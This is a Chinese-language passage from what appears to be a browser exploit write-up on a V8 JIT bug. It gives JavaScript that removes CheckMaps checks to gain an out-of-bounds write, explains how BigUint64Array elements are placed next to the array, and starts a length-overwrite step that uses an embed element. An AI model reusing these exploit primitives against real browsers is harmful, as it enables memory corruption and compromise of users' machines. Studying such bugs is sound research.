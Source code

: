 首先要实现越界写最关键的还是要将checkmaps检查消除，这里我找到了一种办法：

```
const array = [1.1,2.2,3.3];
array.prop = 1;

const num = 1.1;
num.prop = 1;

jit = (object) =&gt; `{`
object.corrupted_prop[2] = num;
return object.corrupted_prop[2];
`}`
```

[![](https://p1.ssl.qhimg.com/t013810d61795627f5a.png)](https://p1.ssl.qhimg.com/t013810d61795627f5a.png)

就是给array设置一个属性，之后在创建一个具有相同属性的num，这样进行写入时就会消除掉checkmaps。

这里有几个点要注意：
1. 直接赋值object.corrupted_prop[2] = 1.1;是不会消除checkmaps的。
1. 越界写的长度是array的长度，但写的基地址为Float64Array的elemets，算是一个比较特殊的越界写！！！很重要 ！！！
1. 最后就是越界写的过程中，是将数组中的每一个值都当作object来写的
[![](https://p1.ssl.qhimg.com/t019b67384ca273c8f3.png)](https://p1.ssl.qhimg.com/t019b67384ca273c8f3.png)

[![](https://p4.ssl.qhimg.com/t01445f6036b875eab2.png)](https://p4.ssl.qhimg.com/t01445f6036b875eab2.png)

这里就会有一个问题，elements里面存放的值都是指针压缩后的地址，当作object去写入的话肯定是不行的，看rdi的值也可以发现，他直接取了0xf500000000080425为地址。

而且就算是在32位没有指针压缩的情况下进行越界写，它还是会取8字节的值作为object来进行写入：

[![](https://p3.ssl.qhimg.com/t013b776659fe6b3011.png)](https://p3.ssl.qhimg.com/t013b776659fe6b3011.png)

如图所示，所以就需要找一种越界时可以直接写double的方法，这里我尝试了几乎所有的object后找到了一个可以使用的目标BigUint64Array。

### 3.3Why BigUint64Array？

这里选择它的理由主要有以下几点：
1. 它可以直接写入double，而不会像其他object混淆后当作object去写入
1. BigUint64Array的elements非常特殊，它分配的地址可以和array相邻（可以调试一些其他的typearray，很明显可以发现他们的elements分配的区域和array是相距很远的而且偏移不固定）
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01964953d5aa53fb2b.png)

图中圈红的位置为elements，可以看到BigUint64array的elements可以和array相邻，对于这个漏洞来说就十分方便了。

### 3.4最终的越界写思路：

最后需要修改array的length，但目前写入都是以double的形式进行的，所以需要先泄漏出length旁边的elements的地址，之后再进行拼接写入，避免破坏正常的object结构，修改elements的length也是同理：

```
global_object = `{``}`;

setPropertyViaEmbed = (object, value, handler) =&gt; `{`
const embed = document.createElement('embed');
embed.onload = handler;
embed.type = 'text/html';
Object.setPrototypeOf(global_object, embed);
document.body.appendChild(embed);
object.corrupted_prop = value;
embed.remove();
`}`

```